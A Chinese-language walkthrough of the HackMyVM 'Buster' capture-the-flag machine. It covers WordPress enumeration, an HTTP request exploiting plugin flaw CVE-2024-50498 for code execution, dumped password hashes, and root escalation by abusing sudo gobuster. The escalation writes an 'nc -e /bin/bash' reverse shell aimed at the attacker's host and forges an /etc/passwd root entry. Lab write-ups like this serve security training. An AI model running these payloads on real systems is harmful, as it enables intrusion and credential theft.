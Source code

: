 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_buster.md","permalink":"/安全/靶机/hackmyvm_buster/","title":"hackmyvm_buster"}
---
```


# 主机发现

![Pasted image 20250124200157.png](/img/user/picture/Pasted%20image%2020250124200157.png)

开放80端口
![Pasted image 20250124200222.png](/img/user/picture/Pasted%20image%2020250124200222.png)



# web渗透
![Pasted image 20250124200510.png](/img/user/picture/Pasted%20image%2020250124200510.png)
由**wordpress**搭建

![Pasted image 20250125185710.png](/img/user/picture/Pasted%20image%2020250125185710.png)
存在两个用户：
```
ta0
welcome
```

尝试弱密码破解，未果
![Pasted image 20250125190727.png](/img/user/picture/Pasted%20image%2020250125190727.png)

![Pasted image 20250125190717.png](/img/user/picture/Pasted%20image%2020250125190717.png)


## 插件漏洞


```shell
wpscan --url http://。。。/ -e ap --plugins-detection aggressive --api-token xxx 
```

![Pasted image 20250125193432.png](/img/user/picture/Pasted%20image%2020250125193432.png)

POC：
https://github.com/RandomRobbieBF/CVE-2024-50498
```http
POST /wp-json/wqc/v1/query HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-query-console
Content-Type: application/json
Content-Length: 45
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

{"queryArgs":"phpinfo();","queryType":"post"}
```
![Pasted image 20250125193519.png](/img/user/picture/Pasted%20image%2020250125193519.png)


![Pasted image 20250125194158.png](/img/user/picture/Pasted%20image%2020250125194158.png)
![Pasted image 20250125194206.png](/img/user/picture/Pasted%20image%2020250125194206.png)
确实可以执行


现在进行反弹shell

![Pasted image 20250125194459.png](/img/user/picture/Pasted%20image%2020250125194459.png)
![Pasted image 20250125194506.png](/img/user/picture/Pasted%20image%2020250125194506.png)

成功连接

## 提权

sudo -l需要密码，弄不了


先看一下别的信息
![Pasted image 20250125195026.png](/img/user/picture/Pasted%20image%2020250125195026.png)
配置文件中有数据库信息

![Pasted image 20250125195124.png](/img/user/picture/Pasted%20image%2020250125195124.png)

![Pasted image 20250125195157.png](/img/user/picture/Pasted%20image%2020250125195157.png)

```txt
 ta0          $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
 welcome      $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/
```

![Pasted image 20250125195454.png](/img/user/picture/Pasted%20image%2020250125195454.png)

![Pasted image 20250125200005.png](/img/user/picture/Pasted%20image%2020250125200005.png)

```txt
104567
```


![Pasted image 20250125200050.png](/img/user/picture/Pasted%20image%2020250125200050.png)


用pspy64监听一下自动化任务
![Pasted image 20250125205407.png](/img/user/picture/Pasted%20image%2020250125205407.png)
也就是会执行
```bash
/opt/.test.sh
```
![Pasted image 20250125205549.png](/img/user/picture/Pasted%20image%2020250125205549.png)

**利用gobuster读取任意文件**
可以将要读取的文件作为字典
```shell
sudo gobuster -w /opt/.test.sh -u http://192.168.31.92:8000
```

![Pasted image 20250125210451.png](/img/user/picture/Pasted%20image%2020250125210451.png)
在攻击机上就会收到其内容

其实也可以尝试读一下shadow
```shell
root:$6$uvmZZfH41v4CKcWZ$kAglkiLVm6RQYjB/9wZ8GgmbJQqT8QZazoC7hz27tArTJkp7wQZ..0jAnw3BEge9aeN6614uoDeRn5aHvVqc10:20096:0:99999:7:::
```


**利用gobuster写任意文件**

可以先在`/tmp`目录下建一个可执行文件`eval`
```txt
nc -e /bin/bash 192.168.31.92 1234
```
![Pasted image 20250125213144.png](/img/user/picture/Pasted%20image%2020250125213144.png)

我们在靶机上创建目录`/tmp/eval`

可以看到现在执行gobuster的输出结果就是`/tmp/eval`
![Pasted image 20250125213607.png](/img/user/picture/Pasted%20image%2020250125213607.png)

可以设想如果他在自动化任务中的话，也就是`/opt/.test.sh`中，eval文件就会执行，也就是会反弹shell


```shell
sudo gobuster -w wordlist -u http://192.168.31.92:8000 -n -q
 -o /opt/.test.sh
```

成功拿到root
![Pasted image 20250125214438.png](/img/user/picture/Pasted%20image%2020250125214438.png)



# 总结

首先通过wordpress的插件漏洞拿到webshell

通过查看配置文件获取到数据库信息，读取到数据库中welcome的账号密码

靶机也有用户welcome,尝试密码撞库，成功，拿到普通用户权限

查看sudo权限发现有gobuster特权
通过pspy工具了解到有用户层面的自动化任务
![Pasted image 20250125214928.png](/img/user/picture/Pasted%20image%2020250125214928.png)

这个靶场关键点在于怎么利用gobuster进行文件的读写

**首先读：**
可以将要读的文件当作字典，在攻击机上开一个临时web服务，这样就能间接查看文件内容


**写：**
写的思路依靠`-o`参数，也就是可以将结果保存到某个文件中，所以难点就在如何控制gobuster的输出
通过`-n -q`参数，可以实现只输出扫到的目录
也就是说如果我们扫描的目标具有`/a/b/c`目录的话
而我们的字典中有`a/b/c`,这样他的输出就是`/a/b/c`

所以在攻击时将自动化任务文件内容替换为`/tmp/eval`
而这个文件是一个反弹shell的可执行文件
这样我们就能获取rootshell





### 尝试改写/etc/passwd

首先给自己建一个密码
```shell
perl -e 'print crypt("1","aa")'
```
密码的值为 `1`
```txt
aacFCuAIHhrCM
```

所以最后要写入的内容为
```txt
/x:aacFCuAIHhrCM:0:0:x:/root:/bin/bash
```

![Pasted image 20250125222025.png](/img/user/picture/Pasted%20image%2020250125222025.png)


在靶机上建立目录
```shell
mkdir -p 'x:aacFCuAIHhrCM:0:0:x:/root:/bin/bash'
```
这里最后把最后的`bash`删掉，换成一个文件


![Pasted image 20250125222340.png](/img/user/picture/Pasted%20image%2020250125222340.png)

![Pasted image 20250125222446.png](/img/user/picture/Pasted%20image%2020250125222446.png)
也是成功拿到root权限，这种方法可以不借助自动化任务
但是更暴力








